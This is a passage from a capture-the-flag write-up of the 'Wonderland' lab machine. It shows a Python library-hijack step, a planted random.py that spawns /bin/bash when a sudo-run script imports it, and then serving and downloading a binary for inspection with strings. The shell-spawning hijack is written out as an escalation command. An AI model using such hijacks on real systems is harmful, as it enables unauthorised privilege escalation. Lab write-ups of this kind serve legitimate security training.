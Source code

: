 ```bash
cat > random.py
import os
os.system("/bin/bash")

sudo /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
id
cd /home/rabbit/
./teaParty
pyhton3 -m http.server 4444
```

![Screenshot 2023-08-27 180138.png](Wonderland%203eba45d4cae64d18ae7dad24844366e2/Screenshot_2023-08-27_180138.png)

**On the Attacker_Machine:**

After downloading the teaParty to our local machine, I used the strings command to check for any human-readable strings inside the machine code for the binary. We get that the executable just prints the current time plus an hour for the arrival of mad Hatter without any more context to it. We also see that the segmentation fault is just a text. There is no actual segmentation fault that is occurring in the binary.

```bash
wget http://10.10.126.230:4444/teaParty
strings teaParty
```

![Screenshot 2023-08-27 180636.png](Wonderland%203eba45d4cae64d18ae7dad24844366e2/Screenshot_2023-08-27_180636.png)
